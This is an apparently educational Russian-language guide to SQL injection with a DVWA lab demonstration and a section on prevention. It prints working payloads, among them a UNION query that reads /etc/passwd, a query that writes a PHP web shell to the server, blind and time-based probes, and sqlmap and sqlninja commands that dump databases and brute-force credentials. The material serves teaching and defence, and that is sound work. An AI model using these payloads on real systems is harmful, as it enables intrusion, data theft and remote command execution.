









# SQL injection

## Описание
SQL инъекции - это баг в способе обработки приходящей со стороны клиента информации, которая используются веб-приложением для построения запросов к своей базе данных. В случае, если эти входные данные не фильтруются специальным образом, злоумышленник может получить возможность встроить в отправляемые данные такие конструкции, которые изменят исходный запрос, внедрив в этот запрос вредоносный код. В результате такой манипуляции, злоумышленник, в зависимости от масштабности бага, получает возможность:
+ Выполнения произвольных запросов к базе сайта
+ Чтения/записи локальных файлов на атакуемом сервере
+ Исполнения произвольных команд на атакуемом сервере

Успешная SQL-инъекция может привести к несанкционированному доступу конфиденциальной информации, таким как пароли, данные кредитной карты или личная информация пользователя. Кроме того, злоумышленник сможет не только прочитать, изменить и удалить полученную конфиденциальную информацию, но и сможет подключиться к системе от имени другого пользователя (администратора). 

В некоторых случаях злоумышленник может получить постоянный доступ к системе организации, что приведет к долгосрочной компрометации, которая может оставаться незамеченной в течение длительного периода времени.
## Распространённые виды атак
1. Преобразование запроса с помощью добавления комментария для получения дополнительных результатов. 
   ```
   SELECT * FROM products WHERE category = 'Gifts' AND released = 1
   SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
   ```
   ```
   https://insecure-website.com/products?category=Gifts
   https://insecure-website.com/products?category=Gifts'--
   ```
2. Нарушение логики запроса с помощью добавления логических выражений и комментариев.
   ```
   SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
   SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
   ```
3. Атаки с помощью UNION (команда "объединение таблиц" в SQL) для получения данных из разных таблиц базы данных.
   ```
   SELECT a, b FROM table1 UNION SELECT c, d FROM table2
   ' UNION SELECT username, password FROM users--
   ```
4. Извлечение информации о БД, такой как тип, версия и структура базы данных.
   ```
   SELECT @@version
   SELECT banner FROM v$version
   SELECT version()
   ```
5. Инъекция SQL, при которой результаты запроса не возвращаются в ответах приложения. ("Blind SQL injection") Реализуется с помощью запросов на условие с получением ошибки или временной задержки и возможным brute force.
   
   - **Условие с получением ошибки** (conditional errors). Если утверждение истино, то вызывается ошибка базы данных (например, деление на ноль), а иначе ошибка не происходит, сайт остаётся прежним.
   ```
   SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END
   
   https://insecure-website.com/products?category=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
   ```
   - **Условие с получением временной задержки** (conditional time delays). Если утверждение истино, то вызывается временная задержка в базе данных при обработке запроса (например, 10 секунд), а иначе задержка не происходит.
   ```
   SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
   
   https://insecure-website.com/products?category=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
   ```


# Демонстрация атаки
## Error-based SQL инъекция
## Поиск уязвимости
SQL инъекция возможна в случаях, когда пользовательский ввод не фильтруется и не обрабатывается должным образом, прежде чем попадает в динамический SQL запрос. Следовательно, чтобы обнаружить SQL инъекцию, атакующему нужно проверять формы отправки данных на сервер.

Пример формы, отправляющей данные на сервер:




*Источник: [DVWA](https://dvwa.co.uk/)*

Чтобы проверить атакуемую форму на наличие SQL инъекции, нужно попытаться изменить логику запроса, внедрив в отправляемые данные синтаксические конструкции языка SQL. Например, кавычку



Если форма уязвима, получится нарушить логику приложения и вызвать ошибку.


## Причина уязвимости
Происходит это, потому что введенные пользователем данные никак не фильтруются перед построением запроса на их основе.

Пример уязвимого кода на PHP:
```php
<?php
if( isset( $_REQUEST[ 'Submit' ] ) ) {
    // Get input
    $id = $_REQUEST[ 'id' ];

    switch ($_DVWA['SQLI_DB']) {
        case MYSQL:
            // Check database
            $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
            $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) ...
    }
    ...
}
?>
```
*Источник: [DVWA](https://dvwa.co.uk/)*

Как было сказано раньше, в этом примере данные, полученные от пользователя, не проходят предварительных проверок и сразу же подставляются в запрос. Эта ошибка позволяет атакующему внедрить в запрос конструкции, нарушающие логику работы приложения.

## Пример нагрузки, выполняющей чтение локальных файлов:
```sql
' union select 1, load_file('/etc/passwd') #
```


В данном примере запрос 
```sql
SELECT first_name, last_name FROM users WHERE user_id = '$id';
``` 
после получения параметра `$id` от пользователя, преобразуется в следующую конструкцию:
```sql
SELECT first_name, last_name FROM users WHERE user_id = '' union select 1, load_file('/etc/passwd') #';
``` 
которая и даёт атакующему возможность чтения локальных файлов.

## Пример нагрузки на получение shell'а:
```sql
' union select 1, '<?php system($_GET["cmd"]); ?>' into outfile '../../htdocs/cmd.php' #
```
В этом примере атакующий записывает PHP-скрипт
```php
<?php 
system($_GET["cmd"]); 
?>
```
в файл cmd.php.
Теперь атакующий может обратиться к этой веб-странице и через параметры GET запроса отправлять команды системе-жертве.

~~~
http://host/path/to/file/cmd.php?cmd=uname%20-a
~~~


## Атака автоматизированными инструментами

Команда для запуска sqlmap:
```bash
sqlmap -u "http://host/DVWA-master/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=4074cf3daf9e2152349baee68c99a656; security=low" --proxy http://192.168.50.2:8080 --dump-all
```
Результат:



# Blind SQL-инъекция

### Пример вредоносного кода
```
http://site/?param=1' and ascii(substr(database(),1,1))>99#
```
```
SELECT title,description,body FROM items WHERE PARAM='1' and ascii(substr(database(),1,1))>99#'
```

### Пример поиска обнаружения Blind SQL-инъекции

Если веб-приложение уязвимо для SQL-инъекции, то оно, вероятно , ничего не вернет.Чтобы убедиться, необходимо ввести запрос , который вернет ‘true’:
```
http://site/?param=1' OR 1=1#
```
```
SELECT title,description,body FROM items WHERE PARAM='1' OR 1=1#'
```

### Пример Time-based Blind SQL-инъекции

Этот тип слепой SQL-инъекции основан на том, что база данных приостанавливается на определенное время, а затем возвращает результаты, указывающие на успешное выполнение SQL-запроса.
```
1' AND sleep(7)#
```

### Атака автоматизированными инструментами
Примеры инструментов для проведения атаки:
* SQLNinja
  ```
  root@edge-linuxpen:~/sqlninja-0.2.3-r1# ./sqlninja -v -m bruteforce -w pass.txt
  Sqlninja rel. 0.2.3-r1
  Copyright (C) 2006-2008 icesurfer <r00t@northernfortress.net>
  [+] Parsing configuration file................
  - Host: state.govt.agency.us
  - Port: 443
  - SSL: yes
  - method: POST
  - page: /APPLICATION/Folder/AuthenticationPage.asp
  - stringstart: Submit=Submit&Password=pwned&UserName=auditor'
  - stringend: 
  - local host: 192.168.0.1
  - sniff device: eth0
  - domain: sqlninja.net
  [v] SSL connection forced
  [+] Target is: state.govt.agency.us
  [+] Wordlist has been specified: using dictionary-based bruteforce
  Number of concurrent processes  [min:1 max:10 default:3]
  > 1
  [v] Creating UNIX socket for children messages
  [v] Launching children processes
  [+] Bruteforcing the sa password. This might take a while
  dba password is...: servername
  bruteforce took 60 seconds
  [+] Trying to add current user to sysadmin group
  [+] Done! New connections will be run with administrative privileges! In case
    the server uses ODBC, you might have to wait a little bit
    (check sqlninja-howto.html)
  ```
* SQLMap
  ```bash
  sqlmap -u "http://host/DVWA-master/vulnerabilities/sqli_blind/?id=1&Submit=Submit" --cookie="PHPSESSID=4074cf3daf9e2152349baee68c99a656; security=low"
  ```
  

# Рекомендации
Большинство случаев SQL-инъекций можно предотвратить, используя параметризованные запросы (prepared statements) вместо объединения строк в запросе.

Следующий код уязвим для SQL-инъекций, поскольку пользовательский ввод объединяется непосредственно с запросом:
```
String query = "SELECT * FROM products WHERE category = '"+ input + "'";
Statement statement = connection.createStatement();
ResultSet resultSet = statement.executeQuery(query);
```
Этот код можно легко переписать таким образом, чтобы пользовательский ввод не мешал структуре запроса:
```
PreparedStatement statement = connection.prepareStatement("SELECT * FROM products WHERE category = ?");
statement.setString(1, input);
ResultSet resultSet = statement.executeQuery();
```
Параметризованные запросы можно использовать в любой ситуации, когда ненадежные входные данные отображаются как данные в запросе, включая предложение WHERE и значения в операторе INSERT или UPDATE. Их нельзя использовать для обработки ненадежных входных данных в других частях запроса, таких как имена таблиц или столбцов или предложение ORDER BY. Функциональность приложения, которая помещает ненадежные данные в эти части запроса, должна будет использовать другой подход, например, внести в белый список разрешенные входные значения или использовать другую логику для обеспечения требуемого поведения.

Чтобы параметризованный запрос был эффективным для предотвращения SQL-инъекций, строка, используемая в запросе, всегда должна быть жестко запрограммированной константой и никогда не должна содержать никаких переменных данных из любого источника.

**[Пример безопасного кода (Java+Oracle)](https://docs.oracle.com/javase/tutorial/jdbc/basics/prepared.html):**
```java
public void updateCoffeeSales(HashMap<String, Integer> salesForWeek) throws SQLException {
    String updateString =
      "update COFFEES set SALES = ? where COF_NAME = ?";
    String updateStatement =
      "update COFFEES set TOTAL = TOTAL + ? where COF_NAME = ?";

    try (PreparedStatement updateSales = con.prepareStatement(updateString);
         PreparedStatement updateTotal = con.prepareStatement(updateStatement))
    
    {
      con.setAutoCommit(false);
      for (Map.Entry<String, Integer> e : salesForWeek.entrySet()) {
        updateSales.setInt(1, e.getValue().intValue());
        updateSales.setString(2, e.getKey());
        updateSales.executeUpdate();

        updateTotal.setInt(1, e.getValue().intValue());
        updateTotal.setString(2, e.getKey());
        updateTotal.executeUpdate();
        con.commit();
      }
    } catch (SQLException e) {
      JDBCTutorialUtilities.printSQLException(e);
      if (con != null) {
        try {
          System.err.print("Transaction is being rolled back");
          con.rollback();
        } catch (SQLException excep) {
          JDBCTutorialUtilities.printSQLException(excep);
        }
      }
    }
  }
```

# Источники и дополнительная литература
- [SQL injection by PortSwigger](https://portswigger.net/web-security/sql-injection)
- [SQL injection by OWASP](https://owasp.org/www-community/attacks/SQL_Injection)
- [SQL injection usage cheat sheet by PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- [SQL Injection Prevention Cheat Sheet by OWASP](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [Using Prepared Statements on Java](https://docs.oracle.com/javase/tutorial/jdbc/basics/prepared.html)
- [SQLmap](https://sqlmap.org/)
- [SQLninja](http://sqlninja.sourceforge.net/index.html)
- [Blind SQL injection by OWASP](https://owasp.org/www-community/attacks/Blind_SQL_Injection)
- [Blind SQL injection by SECLISTS.ORG](https://seclists.org/bugtraq/2005/Feb/288)